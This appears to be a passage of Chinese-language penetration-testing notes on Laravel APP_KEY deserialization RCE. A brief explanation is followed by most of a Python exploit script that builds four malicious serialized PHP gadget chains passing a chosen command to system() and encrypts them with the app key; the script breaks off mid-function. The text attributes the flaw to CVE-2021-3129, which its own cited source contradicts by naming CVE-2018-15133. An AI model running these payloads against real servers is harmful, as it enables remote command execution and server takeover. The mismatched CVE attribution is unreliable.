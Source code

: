 GPT說的一句話：滲透測試的 Swiss Army Knife（瑞士刀）
:::

**payload:**
Laravel 反序列化 RCE 漏洞：
- 原理簡述（Laravel APP_KEY 反序列化）Laravel 會用 APP_KEY 來加密一些資料，比如 session、remember_me cookies、cache 等。這個漏洞（CVE-2021-3129）是：如果你知道 Laravel 的 APP_KEY，你可以手動構造一個加密資料（payload），Laravel 解密後會反序列化它，如果資料裡面是個惡意的 PHP 對象，會觸發 __destruct() 執行你指定的命令。
![image](https://hackmd.io/_uploads/BkJmJDcAJx.png)

#### Payload:
:::danger
This code was created for educational use not anything illegal. Whatever you do it's your own responsibility.
:::
(ref:https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py)
```python=
#! /usr/bin/env python3

from rich.console import Console
from rich.table import Table
from Crypto import Random
from Crypto.Cipher import AES
from hashlib import sha256
from Crypto.Util.Padding import pad
import hmac
import base64
import json
import argparse
import requests
from signal import signal, SIGINT
from sys import exit

console = Console()

def generate_payload(cmd, key, method=1):
    # Porting phpgcc thing for Laravel RCE php objects - code mostly borrowed from Metasploit's exploit
    if method == 1: # Laravel RCE1
        payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:15:"Faker\\Generator":1:{s:13:"' + "\x00" + '*' + "\x00" + 'formatters";a:1:{s:8:"dispatch";s:6:"system";}}s:8:"' + "\x00" + '*' + "\x00" + 'event";s:' + str(len(cmd)) + ':"' + cmd + '";}'
    elif method == 2: # Laravel RCE2
        payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:28:"Illuminate\\Events\\Dispatcher":1:{s:12:"' + "\x00" + '*' + "\x00" + 'listeners";a:1:{s:' + str(len(cmd)) + ':"' + cmd + '";a:1:{i:0;s:6:"system";}}}s:8:"' + "\x00" + '*' + "\x00" + 'event";s:' + str(len(cmd)) + ':"' + cmd + '";}'
    elif method == 3: # Laravel RCE3
        payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":1:{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:39:"Illuminate\\Notifications\\ChannelManager":3:{s:6:"' + "\x00" + '*' + "\x00" + 'app";s:' + str(len(cmd)) + ':"' + cmd + '";s:17:"' + "\x00" + '*' + "\x00" + 'defaultChannel";s:1:"x";s:17:"' + "\x00" + '*' + "\x00" + 'customCreators";a:1:{s:1:"x";s:6:"system";}}}'
    else: # Laravel RCE4
        payload_decoded = 'O:40:"Illuminate\\Broadcasting\\PendingBroadcast":2:{s:9:"' + "\x00" + '*' + "\x00" + 'events";O:31:"Illuminate\\Validation\\Validator":1:{s:10:"extensions";a:1:{s:0:"";s:6:"system";}}s:8:"' + "\x00" + '*' + "\x00" + 'event";s:' + str(len(cmd)) + ':"' + cmd + '";}'
    value = base64.b64encode(payload_decoded.encode()).decode('utf-8')
    key = base64.b64decode(key)
    return encrypt(value, key)

def encrypt(text, key):
    cipher = AES.new(key,AES.MODE_CBC)
    value = cipher.encrypt(pad(base64.b64decode(text), AES.block_size))
```